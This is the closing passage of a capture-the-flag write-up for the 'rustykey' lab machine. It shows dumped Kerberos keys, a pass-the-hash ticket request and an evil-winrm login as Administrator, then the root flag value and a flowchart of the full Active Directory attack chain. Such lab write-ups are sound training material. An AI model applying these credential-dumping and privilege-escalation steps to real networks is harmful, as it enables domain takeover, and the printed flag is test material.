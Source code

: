 ```console
IT-Computer5$:aes256-cts-hmac-sha1-96:417a87cdc95cb77997de6cdf07d8c9340626c7f1fbd6efabed86607e4cfd21b8
IT-Computer5$:aes128-cts-hmac-sha1-96:873fd89f24e79dcd0affe6f63c51ec9a
IT-Computer5$:des-cbc-md5:ad5eec6bcd4f86f7
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[-] SCMR SessionError: code: 0x41b - ERROR_DEPENDENT_SERVICES_RUNNING - A stop control has been sent to a service that other running services are dependent on.
[*] Cleaning up...
[*] Stopping service RemoteRegistry
```

Connect as `Administrator` and get root flag:

```console
root@kali:~# impacket-getTGT rustykey.htb/Administrator -hashes aad3b435b51404eeaad3b435b51404ee:f7a351e12f70cc177a1d5bd11b28ac26
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

[*] Saving ticket in Administrator.ccache

root@kali:~# export KRB5CCNAME=Administrator.ccache

root@kali:~# evil-winrm -i dc.rustykey.htb -r rustykey.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
```

```pwsh
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
rustykey\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\Desktop\root.txt
1476a94ba4b9727ab932c9b2840ece73
```

## 6. Summary

```mermaid
flowchart TD
  A(Provided credential for rr.parker) -->|timeroasting and hashcat| B(Get credential for IT-COMPUTER3)
  B -->|AddSelf| C(Get access to HELPDESK group)
  C -->|Reset password| D(Get access as bb.morgan)
  C -->|Remove from PROTECTED OBJECTS| D
  D --> D1[user.txt]
  D -->|Reset password| E(Get access as ee.reed)
  D -->|Remove from PROTECTED OBJECTS| E
  D -->|RunasCs| E
  D -->|Hint from internal.pdf about registry and compression/decompression tool| G(Get access as mm.turner)
  E -->|COM Hijack via registry permissions| G
  G -->|AddAllowedToAct permission for RBCD attack| H(Allow IT-COMPUTER3 to delegate as DC)
  H -->|S4U2self| I(Service ticket as BACKUPADMIN)
  I -->|Dump all domain hashes| J(Connect with Administrator hash)
  J --> J1[root.txt]
```
